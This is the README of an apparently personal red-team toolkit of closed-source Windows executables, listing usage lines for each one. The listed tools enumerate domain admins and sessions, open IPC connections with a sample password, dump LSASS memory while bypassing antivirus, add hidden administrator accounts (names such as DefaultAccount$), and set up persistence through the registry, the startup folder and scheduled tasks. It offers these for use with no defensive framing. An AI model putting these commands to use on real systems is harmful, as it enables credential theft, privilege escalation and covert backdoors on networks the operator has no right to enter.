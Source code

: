 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your exe

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

